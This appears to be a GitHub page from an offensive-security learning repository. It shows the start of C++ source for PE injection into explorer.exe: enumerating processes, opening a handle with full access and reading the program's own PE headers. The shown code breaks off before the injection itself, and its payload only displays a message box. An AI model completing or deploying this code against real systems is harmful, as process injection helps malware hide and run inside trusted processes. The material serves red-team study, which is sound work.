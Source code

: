 ## Full Code
```cpp
#include <stdio.h>
#include <Windows.h>
#include <TlHelp32.h>
#include <iostream>

typedef struct BASE_RELOCATION_ENTRY {
	USHORT Offset : 12;
	USHORT Type : 4;
} BASE_RELOCATION_ENTRY, * PBASE_RELOCATION_ENTRY;

DWORD self()
{	
	MessageBoxA(NULL, "PE Injection", "Hello from Offensive-Panda", NULL);
	return 0;
}

HANDLE GetProcessHandle(const wchar_t* processName) {
	HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);  // Take a snapshot of all processes
	if (hProcessSnap == INVALID_HANDLE_VALUE) {
		std::wcerr << L"Failed to create process snapshot." << std::endl;
		return NULL;
	}

	PROCESSENTRY32W pe32;
	pe32.dwSize = sizeof(PROCESSENTRY32W);

	if (!Process32FirstW(hProcessSnap, &pe32)) {  // Retrieve the first process information
		std::wcerr << L"Failed to retrieve the first process information." << std::endl;
		CloseHandle(hProcessSnap);
		return NULL;
	}

	do {
		if (_wcsicmp(pe32.szExeFile, processName) == 0) {  // Compare process name with "explorer.exe"
			HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pe32.th32ProcessID);
			if (hProcess == NULL) {
				std::wcerr << L"Failed to open process handle for " << processName << L". Error: " << GetLastError() << std::endl;
			}
			else {
				CloseHandle(hProcessSnap);  // Close snapshot handle after use
				return hProcess;  // Return the handle to the explorer.exe process
			}
		}
	} while (Process32NextW(hProcessSnap, &pe32));  // Continue to the next process

	CloseHandle(hProcessSnap);  // Close snapshot handle if process not found
	std::wcerr << L"Process " << processName << L" not found." << std::endl;
	return NULL;
}
int main()
{
	const wchar_t* processName = L"explorer.exe";
	HANDLE hExp = GetProcessHandle(processName);
	// Get current image's base address
	PVOID imageBase = GetModuleHandle(NULL);
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)imageBase;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)imageBase + dosHeader->e_lfanew);

```